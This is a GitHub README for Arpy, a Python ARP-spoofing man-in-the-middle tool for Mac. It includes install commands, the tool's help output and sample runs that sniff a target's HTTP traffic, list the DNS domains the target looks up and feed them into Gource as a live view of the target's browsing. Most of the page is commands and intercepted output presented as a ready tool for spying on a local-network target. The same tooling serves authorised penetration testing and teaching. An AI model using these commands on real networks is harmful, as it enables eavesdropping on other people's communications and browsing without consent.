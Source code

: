 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy
* libdnet

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
pip install scapy
```
#### libdnet
```
git clone https://github.com/dugsong/libdnet.git
./configure && make && make install
```

## Sample Commands
```
ivanvza:~/ > sudo arpy
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --tcp                 Filters out only tcp traffic
  --udp                 Filters out only udp traffic
  -d D_PORT, --destination_port=D_PORT
                        Filter for a destination port
  -s S_PORT, --source_port=S_PORT
                        Filter for a source port
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
  -v                    Verbose scapy packet print
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3))

[Info] Found the following (IP layer): 192.168.1.3 -> 46.101.34.90
GET / HTTP/1.1
User-Agent: curl/7.37.1
Host: ivanvza.ninja
Accept: */*



[Info] Found the following (IP layer): 46.101.34.90 -> 192.168.1.3
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "2719538271"
Last-Modified: Thu, 30 Apr 2015 08:25:15 GMT
Content-Length: 3213
Date: Fri, 29 May 2015 20:15:06 GMT
Server: Microsoft IIS

<html>
     <title>><></title>
    <body>
        <pre style="line-height: 1.25; white-space: pre;">
        \          SORRY            /
         \                         /
          \    This page does     /
           ]   not exist yet.    [    ,'|
           ]                     [   /  |
           ]___               ___[ ,'   |
           ]  ]\             /[  [ |:   |
           ]  ] \           / [  [ |:   |
           ]  ]  ]         [  [  [ |:   |
           ]  ]  ]__     __[  [  [ |:   |
           ]  ]  ] ]\ _ /[ [  [  [ |:   |
           ]  ]  ] ] (#) [ [  [  [ :===='
           ]  ]  ]_].nHn.[_[  [  [
           ]  ]  ]  HHHHH. [  [  [
           ]  ] /   `HH("N  \ [  [
           ]__]/     HHH  "  \[__[
           ]         NNN         [
           ]         N/"         [
           ]         N H         [
          /          N            \
         /           q,            \
        /                           \
        </pre>
        <h3 id="list"><h3>
    </body>
<script>

// NOTE: window.RTCPeerConnection is "not a constructor" in FF22/23
var RTCPeerConnection = /*window.RTCPeerConnection ||
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff-dns-gource
[INFO] For a live gource feed run this command in parallel with this one:

tail -f /tmp/36847parsed_nmap | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -

[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3) and dst port 53)
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Port it too kali.
